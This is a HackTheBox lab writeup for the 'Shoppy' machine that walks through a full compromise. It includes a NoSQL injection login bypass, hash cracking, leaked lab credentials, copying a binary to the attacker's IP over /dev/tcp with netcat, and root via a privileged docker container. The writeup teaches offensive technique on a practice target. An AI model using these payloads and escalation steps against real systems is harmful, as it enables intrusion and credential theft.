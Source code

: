 ```yaml
---
layout: single
title: Shoppy hackthebox writeup
excerpt: "Easy linux machine in which we inject NoSQL code, crack a password, reverse engineer a binary and escalate through docker"
date: 2022-11-06
classes: wide
header:
  teaser: /assets/images/shoppy/shoppy_icon.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - writeup
tags:
  - hackthebox
  - NoSQL
  - fuzzing
  - reverse engineering
  - docker
---
```


![](/assets/images/shoppy/shoppy.png)

## User flag

First thing first, port scanning

```shell
PORT     STATE SERVICE REASON
22/tcp   open  ssh     syn-ack ttl 63
80/tcp   open  http    syn-ack ttl 63
9093/tcp open  copycat syn-ack ttl 63
```

Having port 9093 is quite odd, if you check it with your browser you will find some information about a mattermost server but nothing too crucial. On the other hand, if we fuzz the main webpage (port 80) we find

```shell
ffuf -w /home/dasor/wordlist/directory-list-2.3-big.txt -u http://shoppy.htb/FUZZ -v -of md -o ffuf_common -t 200
```

| FUZZ | URL | Redirectlocation | Position | Status Code | Content Length | Content Words | Content Lines | Content Type | ResultFile |
  | :- | :-- | :--------------- | :---- | :------- | :---------- | :------------- | :------------ | :--------- | :----------- |
  | images | http://shoppy.htb/images | /images/ | 2 | 301 | 179 | 7 | 11 | text/html; charset=UTF-8 |  |
  | login | http://shoppy.htb/login |  | 39 | 200 | 1074 | 152 | 26 | text/html; charset=UTF-8 |  |
  | admin | http://shoppy.htb/admin | /login | 245 | 302 | 28 | 4 | 1 | text/plain; charset=utf-8 |  |
  | assets | http://shoppy.htb/assets | /assets/ | 277 | 301 | 179 | 7 | 11 | text/html; charset=UTF-8 |  |
  | css | http://shoppy.htb/css | /css/ | 540 | 301 | 173 | 7 | 11 | text/html; charset=UTF-8 |  |
  | Login | http://shoppy.htb/Login |  | 811 | 200 | 1074 | 152 | 26 | text/html; charset=UTF-8 |  |
  | js | http://shoppy.htb/js | /js/ | 939 | 301 | 171 | 7 | 11 | text/html; charset=UTF-8 |  |
  | fonts | http://shoppy.htb/fonts | /fonts/ | 2744 | 301 | 177 | 7 | 11 | text/html; charset=UTF-8 |  |
  | Admin | http://shoppy.htb/Admin | /login | 6193 | 302 | 28 | 4 | 1 | text/plain; charset=utf-8 |  |
  | exports | http://shoppy.htb/exports | /exports/ | 34903 | 301 | 181 | 7 | 11 | text/html; charset=UTF-8 |  |
  |  | http://shoppy.htb/ |  | 39970 | 200 | 2178 | 853 | 57 | text/html; charset=UTF-8 |  |
  | LogIn | http://shoppy.htb/LogIn |  | 94229 | 200 | 1074 | 152 | 26 | text/html; charset=UTF-8 |  |
  | LOGIN | http://shoppy.htb/LOGIN |  | 178341 | 200 | 1074 | 152 | 26 | text/html; charset=UTF-8 |  |


The only one that works is the login page. I started trying LDAP injection and SQL injection but it didn't work out. However, I tried the `admin'||'1==1` NoSQL injection and it worked. Now in the admin panel, there is a "Search for users" button that is also vulnerable to NoSQL injection. So if we inject `'||'1==1` we get all users (only admin and josh) and their hashed md5 password.

So obviously let's crack the passwords

```shell
[dasor@archlinux ~/htb/shoppy]$ hashcat -m 1000 hashjosh ~/wordlist/rockyou.txt --show
6ebcea65320589ca4f2f1ce039975995:remembermethisway
```

Unfortunately, the admin password couldn't be cracked. To be honest, I got stuck at this point so I started from the beginning again, Then I remembered I didn't fuzz for VHOST so that's what I did.

```shell
ffuf -w ~/wordlist/subdomains-UPDATED.txt -u http://shoppy.htb -H 'Host: FUZZ.shoppy.htb' -fs 169 -t 200

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v1.3.1
________________________________________________

 :: Method           : GET
 :: URL              : http://shoppy.htb
 :: Wordlist         : FUZZ: /home/dasor/wordlist/subdomains-UPDATED.txt
 :: Header           : Host: FUZZ.shoppy.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 200
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
 :: Filter           : Response size: 169
________________________________________________

mattermost              [Status: 200, Size: 3122, Words: 141, Lines: 1]
```

A mattermost VHOST appears, it makes a lot of sense. As usual, let's add the subdomain to our /etc/hosts.

```shell
10.10.11.180    shoppy.htb mattermost.shoppy.htb
```

In this new VHOST, we find a login page, the credentials we got earlier are valid. This mattermost page is similar to the one faced in the [paper machine](./2021-12-24-Paper-Writeup.md). In this chat, we find credentials for a user called jaeger. Also, there is information about a password manager made in c++. So let's remember that a login via ssh

```shell
[dasor@archlinux ~/htb/shoppy]$ ssh jaeger@shoppy.htb
jaeger@shoppy.htb's password:
Linux shoppy 5.10.0-18-amd64 #1 SMP Debian 5.10.140-1 (2022-09-02) x86_64
jaeger@shoppy:/home/deploy$
```

user flag done!

## Root flag

Now if we start doing the usual privesc checks we find the password manager mentioned before

```shell
jaeger@shoppy:/home/deploy$ sudo -l
[sudo] password for jaeger:
Matching Defaults entries for jaeger on shoppy:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jaeger may run the following commands on shoppy:
    (deploy) /home/deploy/password-manager
```

We can read the source code but we can look at the binary so I copied it to my machine
```shell
jaeger@shoppy:/home/deploy$ cat password-manager > /dev/tcp/10.10.14.32/7777
[dasor@archlinux ~/htb/shoppy]$ nc -lvp 7777 > bin
Connection from 10.10.11.180:56928
```

Next, I opened the binary with ghira to decompile it (maybe a little bit overkill). with this, I found the master password that the binary asks for.

![](/assets/images/shoppy/ghidra.png)

<p align = "center">
screenshot of ghidra where the master password can be seen in the decompile window
</p>

Now let's use the password in the actual victim's machine

```shell
jaeger@shoppy:/home/deploy$ sudo -u deploy /home/deploy/password-manager
Welcome to Josh password manager!
Please enter your master password: Sample
Access granted! Here is creds !
Deploy Creds :
username: deploy
password: Deploying@pp!
```

With these credentials, we can escalate to user deploy and then proceed with another round of searching for privesc vectors.

```shell
jaeger@shoppy:/home/deploy$ su deploy
Password:
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
deploy@shoppy:~$ groups
deploy docker
```

Now the way to finish is by exploiting docker since we are part of the docker group. This method is straightforward although I haven't posted any CTF with this. Just look for an image and execute it as a privileged user like this

```shell
deploy@shoppy:~$ docker images
REPOSITORY   TAG       IMAGE ID       CREATED        SIZE
alpine       latest    d7d3d98c851f   3 months ago   5.53MB
deploy@shoppy:~$ docker run -ti --privileged --net=host --pid=host --ipc=host --volume /:/host alpine chroot /host
root@shoppy:/# cd
root@shoppy:~# ls
root.txt
```

And we are now root in the system, thanks for reading!
